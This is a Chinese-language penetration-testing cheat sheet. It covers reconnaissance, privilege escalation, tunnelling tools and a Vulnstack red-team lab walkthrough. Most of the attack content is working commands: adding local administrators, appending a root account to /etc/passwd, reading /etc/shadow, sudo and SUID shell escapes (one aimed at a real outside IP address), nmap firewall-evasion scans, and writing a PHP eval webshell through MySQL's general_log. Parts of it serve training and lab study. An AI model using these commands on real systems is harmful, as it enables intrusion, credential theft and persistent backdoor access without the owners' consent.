# 渗透

## 信息收集


### nmap

```nginx
# 【-sS】：用于探测目标主机上开放的端口
	# 使用TCP SYN扫描（也称为半开放扫描）
	# 它发送一个SYN报文段，如果接收到SYN/ACK回复，则表明该端口是开放的。

# 【-sV】：用于确定目标主机上运行的具体服务和其版本信息。
# 【-Pn】：禁用主机发现（Ping）功能。
	# 通常，在扫描之前，nmap会发送一个ICMP Echo请求或者TCP Ping来确认目标主机是否在线。
	# 但使用该选项后，nmap会跳过这个步骤，直接对目标地址进行扫描。
nmap -sS -sV -Pn 192.168.1.5
```


### WIndows信息收集

```nginx
# 查看当前用户和权限
whoami /all

# 查看网络配置信息
ifconfig /all

# 查看主机路由信息
route print

# 查看操作系统信息
systeminfo
	# 查看操作系统版本
	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# 查看端口连接信息
netstat -ano

# 查看当前回话列表（需要管理员权限）
net session

# 查看当前网络共享信息
net share

# 查看已连接的网络共享
net use

# 查看当前进行信息(可用于杀软识别)
tasklist
tasklist /SVC

# wmic查询主机进程、进程路径、名称和id
wmic process get Name, ProcessId, ExecutablePath

  # 查询指定进程信息
  wmic process where Name="cmd.exe" get ExecutablePath

# 查看当前服务信息（显示：服务名称、路径、创建时间、运行状态）
wmic service get Caption, Name, PathName, StartName, State
	# 查询指定服务
	wmic service where Name="cmd" get Caption,PathName,State

# 查看计划任务
schtasks /query /v /fo list

# 查看自启程序信息(显示：程序名称、执行命令、程序路径、所属用户)
wmic startup get Caption, Command, Location, User

# 查看系统补丁安装信息(显示：补丁链接、名称、描述、补丁编号、安装时间)
wmic qfe get Caption, CSName, Description, HotFixID, InstalledOn

# 查看应用安装信息
wmic product get Caption, Version

# 查看本地用户组信息
net user
	# 查看指定用户信息
	net user wheat

# 查看本地管理员组
net localgroup Administrators
	# 新建用户(需要管理员权限)
	net user test test /add
	# 将新建用户添加到管理员组(需要管理员权限)
	net localgroup Administrators test /add

# 查看当前登录用户
query user
```

#### **域内基础信息收集**

```nginx
# 查看当前工作站信息(包含：计算机名、用户名、系统版本、工作站、登录的域)
net config workstation

# 查看是否存在多个域(需要高权限)
net view /domain

# 查看域内所有用户(需要域管理员权限)
net user /domain
	# 查看指定域用户信息
	net user 域用户名 /domain

# 获取所有的用户的SID、所属域、和用户描述(==需要管理员==)
wmic useraccount get Caption, Domain, Description

# 查看域用户组信息(需要域管理员权限)
net group /domain
	# 查看指定组信息(域管理员执行)
	net group "Domain Admins" /domain
	# 查看查看域控制器主机名
	net group "domain controllers" /domain
	# 查看域中的其他主机名
	net group "domain computers" /domain

# 查看域内密码策略(域管理员执行)
net accounts /domain

# 查看域控制器列表(域管理员执行)
net group "Domain Controllers" /domain

# 查看主域控制器(域管理员执行)
net time /domain

```

#### 内网资源探测

**基于ICMP（因特网控制消息协议）**

```nginx
net view                 # 查看局域网内其他主机名
net config Workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 # 查看本机用户列表
net user /domain         # 查看域用户
net localgroup administrators # 查看本地管理员组（通常会有域用户）
net view /domain         # 查看有几个域
net user 用户名 /domain   # 获取指定域用户的信息
net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
net group 组名 /domain    # 查看域中某工作组
net group "domain admins" /domain  # 查看域管理员的名字
net group "domain computers" /domain  # 查看域中的其他主机名
net group "doamin controllers" /domain  # 查看域控制器主机名（可能有多台）
```


### 收集登录信息

**Windows基础信息**

```nginx


# 查看网络连接
netstat -an

# 看登录日志
# 目的是为了寻找一下凭证如：数据库的凭证、Windows的smv凭证
# 然后根据这些凭证去寻找数据库的密码

# 查看Windows启动服务列表
net start

# 查看进程列表，可以看见运行了什么软件
tasklist

# 查看计划任务（无法加载就是权限不够）
schtasks


```

**Windows网络信息**

```nginx
# 判断存在域
ifconfig /all

net view /domain

net time /domain

netstat -ano

nslookup
```

**linux**

```nginx
# linux查看最近10次登录信息
last -n 10
# 这个登录信息上可能会有管理员的信息，要看管理员是从那台机器过来的
```


### 收集杀毒信息


### 收集密码信息

-   数据库账号密码
-   本地管理员账号密码
-   内存中的密码
    -   使用工具：mimikatz（限制Windows2008以下）
-   .ssh目录下的是否存在私钥


# 提权

## Mysql提权

**主要分为：用户自定义函数提权（UDF）、（MOF）**


### Hash获取与解密

```nginx
# MySQL <= 5.6 版本
select host, user, password from mysql.user;

# MySQL >= 5.7 版本
select host,user,authentication_string from mysql.user;

# 使用网站：https://www.cmd5.com/
# 选择类型为：mysql5
```


### UDF


```nginx
# 修改数据库密码
1. 登录 mysql 终端，运行：
mysql> set password=password('new password');
mysql>flush privileges;
2. 修改 mysql user 表
mysql>use mysql;
mysql>update user set password=password('new password') where user='root';
mysql>flush privileges;
3. 使用 GRANT 语句
mysql>GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1' IDENTIFIED BY 'new password' WITH GRANT OPTION;
mysql>flush privileges;
4. mysqladmin
[root@ubuntu]# mysqladmin -u root password "new password";（注意双引号或不加）
5. 备份数据库
[root@ubuntu]# mysqldump -u root -p --databases databasesname > /tmp/db.sql
```


## passwd

**普通用户可以查看：`/etc/passwd`**

**linux 的用户密码哈希存储在 `/etc/shadow` **

==查看passwd文件，如果第二列为**哈希**，则可以进行爆破，==

==如果为**X**，则哈希存储在**shadow**中==

```nginx
# 也可以进行生成密码在导入passwd中
	# 使用 Perl 编程语言中的 crypt 函数对字符串 "123456" 
	# 进行加密，使用的盐值为 "addedsalt"
perl -le 'print crypt("123456","addedsalt")'
echo "hack:adrla7IBSfTZQ:0:0:hack:/root:/bin/bash" >> passwd

# 使用 OpenSSL 库中的 passwd 工具生成一个经过加密的密码
	# 选项 -1 表示使用 MD5 算法进行加密
	# -salt hacker 指定了盐值为 "hacker"
openssl passwd -1 -salt hacker 123456
echo "hacker:$1$hacker$6luIRwdGpBvXdP.GMwcZp/:0:0:hacker:/root:/bin/bash" >> /etc/passwd
```


## sudo提权

```nginx
# awk提权，通过使用awk命令的system函数调用/bin/sh
sudo awk 'BEGIN {system("/bin/sh")}'

# bash 提权（Linux 的默认 shell）
sudo bash

# curl 提权读文件
# /etc/shadow是Linux存储用户账户密码哈希值的文件
sduo curl file:///etc/shadow

# dash 提权
sudo dash

# ed 提权
# ed是Linux中功能最简单的文本编辑程序
sudo ed
!/bin/sh

# 查询环境变量
sudo env /bin/sh
id

# ftp 提权
sudo ftp
!/bin/sh

# less 提权（可以随意浏览文件）
sudo less /etc/passwd
!/bin/sh

# man（帮助手册命令）
sudo man man
!/bin/sh

# more 提权
# 类似cat，不过以一页一页的形式展示，按空格下一页，按b回退
sudo more /etc/passwd
!/bin/sh

# scp 提权
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF 112.124.52.200:20000 y:

# SSH
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' 反弹ip

# vi 提权
sudo vi -c ':!/bin/sh' /dev/null


# socat 提权(需要安装)
sudo socat stdin exec:/bin/sh

# zsh 提权（需要安装）
sudo zsh

# pico 提权
sudo pico
# Ctrl+R Ctrl+X
^R^X
reset; sh 1>&0 2>&0


# scp 提权
# 使用mktemp命令生成临时文件，将其路径保存在TF变量中
TF=$(mktemp)
# 向该临时文件中写入一行bash脚本代码
echo 'sh 0<&2 1>&2' > $TF
# 用chmod命令为临时文件设置可执行权限
chmod +x "$TF"
# 将该临时文件上传到远程主机x中
sudo scp -S $TF x y:


# perl 提权
sudo perl -e 'exec "/bin/sh";'

# git 提权
sudo git -p help config
!/bin/sh

# scrip 提权
sudo script -q /dev/null

###########################################################

# tclsh 提权（Ubuntu18 不安装）
sudo tclsh
exec /bin/sh <@stdin >@stdout 2>@stderr

# ash提权（Ubuntu18默认不安装）
sudo ash

# csh 提权（Ubuntu18默认不安装）
sudo csh

# expect 提权（Ubuntu18默认不安装）
# expect是一个自动化交互套件，主要应用于执行命令和程序时，
# 系统以交互形式要求输入指定字符串，实现交互通信
sudo expect -c 'spawn /bin/sh;interact'
```

## SID提权

```nginx
# 查找具体sid权限的文件
find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null

# taskset命令用于设置进程（或 线程）的处理器亲和性
# 可以将进程（或 线程）绑定到特定的一个
# 多个CPU上去执行，而不允许将进程（或 线程）调度到其他的CPU上。
taskset 1 /bin/sh -p
```


### SUID提权（靶场）

> **SUID这个是uid +s的组合，s指的是特殊权限**

> 一般情况下，用户的权限是3位，比如0755这样的，特殊权限默认没有配置，
>
> 但是如果超级管理员希望用户在执行一些特殊权限文件时，拥有root的权限，就会配置特殊权限

> 比如说passwd这个命令，这个命令会修改/etc/shadow文件，而/etc/shadow只有root才能修改，本来passwd这个命令应该也只能root才能执行的。但是系统为了让普通用户能够修改自己的密码，对passwd这个命令赋予了特殊权限并添加了只能修改自己密码的限制

```nginx
# find命令查找所有suid文件
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

# 敏感文件
-rw-r--r-- 1 susan susan 20 Jul  9  2018 /home/susan/.secret

# 根据运行的结果进行利用
bob@linsecurity:~$ cat /home/susan/.secret 
MySuperS3cretValue!

# 登录到susan账户
su susan
MySuperS3cretValue!

# 如果存在xxd：以十六进制形式显示文件
-rwsr-x--- 1 root itservices 18552 Apr 10  2018 /usr/bin/xxd

# 它所在的itservices组具有执行权限，提权命令
xxd "/etc/shadow" |xxd -r
```


## 隐藏文件利用

```nginx
# 搜索home目录下的隐藏文件
find / -name ".*" -type f -path "/home/*" -exec ls -al {} \; 2>/dev/null
```


## NFS提权

```nginx
# nmap检测开放服务
nmap -sS -Pn -p- -A IP

# 目标地址运行命令验证是否挂载了NFS
rpcinfo -p 本机IP
```


# 渗透工具

## ngrok内网穿透

https://dashboard.ngrok.com/get-started/your-authtoken

- 进入ngrok官网`ngrok.com`下载ngrok.exe

- 注册一个账号，登陆账号进入管理后台，获取Token，即左侧的Your Authtoken

- 打开你的windows cmd命令行工具

- 双击ngrok.exe，然后执行以下命令

  - ```nginx
    # Authtoken 保存在默认配置文件中。
    ngrok config add-authtoken 你的Token
    ```

- 然后就可以开启内网穿透服务了，输入以下命令

  - ```nginx
    ngrok http 80
    ```

    


## neoreg

官网地址：https://github.com/L-codes/Neo-reGeorg

> **他是一个socket代理工具，支持内网代理**

```nginx
# 这条命令生成各种后缀的代理文件，password为任意
python neoreg.py generate -k password

# 本地开启代理，并输入代理目标地址
python3 neoreg.py -k password -u http://xx/tunnel.php
```


## nmap

官网地址：https://nmap.org/download.html

npcat无法使用重新安装：https://npcap.com/#download

> **网络扫描和端口扫描工具**

```nginx
# 只执行主机存活性检测，而不进行端口扫描，并禁用 ARP ping 扫描
# 也就是ping扫描
sudo nmap -sn 192.168.43.95 -disable-arp-ping

# 如果确定目标主机实际上是在线的，但它屏蔽了 ping 探测包
# -Pn：绕过 ping 检测
sudo nmap -sn 192.168.43.95 -Pn -disable-arp-ping
```

> **使用防火墙设置防ping**
>
> ```nginx
> sudo iptables -I INPUT -p ICMP -j DROP
> sudo iptables -I INPUT -p tcp --tcp-flags ALL ACK --dport 80 -j DROP
> sudo iptables -I INPUT -p tcp --tcp-flags ALL SYN --dport 443 -j DROP
> ```

> **使用TCP SYN Ping绕过防火墙**
>
> ```nginx
> sudo nmap -sP -PS 192.168.43.132 -disable-arp-ping
> # -PS：默认在80端口发送TCP SYN数据包，也可以指定端口-PS443
> ```
> > **设置过滤TCP SYN Ping扫描**
>
> ```nginx
> sudo iptables -I INPUT -p tcp --tcp-flags ALL SYN -j DROP
> ```


> **使用TCP ACK Ping绕过TCP SYN Ping**
>
> ```nginx
> sudo nmap -sP -PA 192.168.43.132 -disable-arp-ping
> # 为了绕过它，我们使用TCP ACK数据包的Ping扫描，
> # 所有要使用-PA参数来在80端口发送TCP ACK数据包，和上面一样也可以指定端口。
> # ACK数据包发送到80端口。目标以RST数据包回复。
> ```
> > **再拦截上面的TCP ACK Ping扫描**
>
> ```nginx
> # 把防火墙设置成TCP连接中的ACK数据包都拦截掉
> sudo iptables -I INPUT -p tcp --tcp-flags ALL ACK -j DROP
> ```


> **使用ICMP回环绕过TCP ACK Ping**
>
> ```nginx
> sudo nmap -sP -PE 192.168.43.132 -disable-arp-ping
> # 使用-PE参数发送ICMP回环数据包
> ```
>
> > **再拦截上面的ICMP回环**
>
> ```nginx
> sudo iptables -A INPUT -p icmp -m icmp --icmp-type echo-request -j DROP
> ```

> **使用ICMP时间戳Ping绕过ICMP回环**
>
> ```nginx
> sudo nmap -sP -PP 192.168.43.132 -disable-arp-ping
> # 使用-PP参数来发送ICMP时间戳数据包
> ```
>
> > **再拦截所有ICMP扫描**
> >
> > ```nginx
> > sudo iptables -I INPUT -p ICMP -j DROP
> > # 这条过滤规则会使ssh链接断开
> > ```
> >
> > ```nginx
> > # 清空防火墙规则
> > sudo iptables -F
> > ```

> **使用UDP绕ICMP扫描**
>
> ```nginx
> # -PU：使用udp进行扫描
> sudo nmap -sP -PU 192.168.43.132 -disable-arp-ping
> 
> # 看到目标回复Destination unreachable (Port unreachable)，这就表示主机还活着。
> ```
>
> > **再把UDP拦截了**
> >
> > ```nginx
> > sudo iptables -I INPUT -p ICMP -j DROP
> > sudo iptables -I INPUT -p tcp --tcp-flags ALL ACK --dport 80 -j DROP
> > sudo iptables -I INPUT -p tcp --tcp-flags ALL SYN --dport 443 -j DROP
> > sudo iptables -I INPUT -p udp -j DROP
> > ```

> **利用协议绕过UDP和Ping**
>
> ```nginx
> # 在ICMP TCP和UDP都被拦截时，我们可以用-PO参数发送有IP头中特定协议号的IP数据包，
> # 如果没有指定协议，则发送多个用于ICMP，IGMP和IP-in-IP协议
> sudo nmap -sP -PO 192.168.43.132 -disable-arp-ping
> 
> ```
>
> > **禁止IP协议扫描**
> >
> > ```nginx
> > sudo iptables -I INPUT -p ICMP -j DROP
> > sudo iptables -I INPUT -p tcp --tcp-flags ALL ACK --dport 80 -j DROP
> > sudo iptables -I INPUT -p tcp --tcp-flags ALL SYN --dport 443 -j DROP
> > sudo iptables -I INPUT -p udp -j DROP
> > sudo iptables -I INPUT -p IP -j DROP
> > ```

> **使用NO Ping绕过IP协议**
>
> ```nginx
> # 当Ping扫描被拦截就用-PN参数，不用Ping扫描，
> # 这种方法可以判断主机的状态时up还是down。
> sudo nmap -sP -PN 192.168.43.132 -disable-arp-ping
> ```
>
> https://www.secpulse.com/archives/69585.html

```nginx
# 综合扫描选项，包含操作系统识别、端口扫描和脚本扫描
nmap -A ip

# 探测主机是否在线
nmap -sS ip

# 忽略主机的存活检测，直接进行端口扫描
	# 因为nmap会先对主机进行ping测试或者其他存活，
	# 如果判断主机连接不了或者被过滤了请求就不会进行端口扫描
nmap -Pn ip

# 探测主机端口状态
nmap -sT ip

# 探测主机开放的UDP端口
nmap -sU ip

# 识别目标主机操作系统类型和版本
nmap -O ip

# 指定端口扫描范围
nmap -p 80-100 ip
nmap -p 80,443,8080 ip

# 显示详细信息，包括扫描过程中的进度、扫描结果和统计信息
nmap -v ip
```


## fscan

**下载地址**：https://github.com/shadow1ng/fscan/releases/download/1.8.2/fscan_386

> 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描
>
> - 支持主机**存活探测**、**端口扫描**、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

- 信息收集

  - **存活探测(icmp)**
  - **端口扫描**

- 爆破功能:

  - 各类服务爆破(ssh、smb、rdp等)
  - 数据库密码爆破(mysql、mssql、redis、psql、oracle等)
- 系统信息、漏洞扫描:

  - netbios探测、域控识别
  - 获取目标网卡信息
  - 高危漏洞扫描(ms17010等)

- Web探测功能:

  - webtitle探测
  - web指纹识别(常见cms、oa框架等)
  - web漏洞扫描(weblogic、st2等,支持xray的poc)

- 漏洞利用:

  - redis写公钥或写计划任务
  - ssh命令执行
  - ms17017利用(植入shellcode),如添加用户等

- 其他功能:

  - 文件保存

### 使用

```nginx
# 首先需要知道本机ip
ifconfig

# 然后将下载文件上传到服务器
# 赋予：读写执行权限
chmod 777 fscan_386

fscan_386 -h 192.168.1.1/24  (默认使用全部模块)
fscan_386 -h 192.168.1.1/16  (B段扫描)

# 扫描并将扫描结果写入文件
fscan_386 -h 192.168.0.2/24 -o 0vers1eep.txt 
```


# 红日安全

## 红队实战(—)

靶场下载地址：http://vulnstack.qiyuanxuetang.net/vuln/detail/2/

靶机通用密码： hongrisec@2019

登录修改密码：hongrisec@2023

### 网络配置

**WIndows 10：虚拟机宿主机**

**kali：NAT模式**，模拟外网攻击机

**win7：NAT模式、一个VMnet1网卡**，模拟web服务器

**Server 2003：VMnet1网卡**，模拟内网域成员主机

**Server 2008：Vmnet1网卡**，模拟内网域控主机

.png)

**WIndows 7 打开小皮面板运行网站**

**外网主机如不能直接访问到win7 网站，防火墙开放80端口**

### 外网渗透

> **使用御剑扫描一下web目录**



> 发现数据库后台登录地址，访问后台登录地址，
>
> **使用phpMyadmin登录弱口令爆破工具可以爆破用户名密码**
>
> **弱口令账号密码为：root/root**

#### 拿shell

**利用`general_log`和`general_log_file`上传shell**

- `general_log`：是布尔参数，用于控制是否启用通用查询日志记录。
  - 当将其设置为 `ON` 时，MySQL将开始记录所有的查询日志。当设置为 `OFF` 时，日志记录将停止。
- `general_log_file`：**用于指定通用查询日志文件的路径和名称**。
  - 该文件用于**存储记录的查询日志**。

> 通过查看变量信息可以发现上面两个参数的值



```nginx
# 执行sql语句修改这两个变量的值
set global general_log = "on"
# 设置日志存储路径
set global general_log_file = "C:/phpStudy/WWW/sh.php"
```



```nginx
# 写入shell
select "<?php eval($_POST['cmd']);?>";
```

> **然后访问成功连接上后门**



> 其中还有一个备份文件，可以下载打开看看，**可以发现服务器中还运行一个yxcms**



> 识别出cms的指纹为yxcms就可以去网上搜索一下这个cms是否存在相关的漏洞利用
>
> **然后在这个网页公告栏可以看到这个网站后台的默认密码**


> 然后通过公告栏上账号密码成功登录进来



> 然后通过前台模板编辑可以编辑主页，然后插入任意代码getshell






### 内网渗透

#### **尝试远程登录**

> 查看当前用户的权限，还有3389端口开放情况，

```nginx
whoami
netstat -an | find "3389"
或
netstat -an | findstr "3389"
```

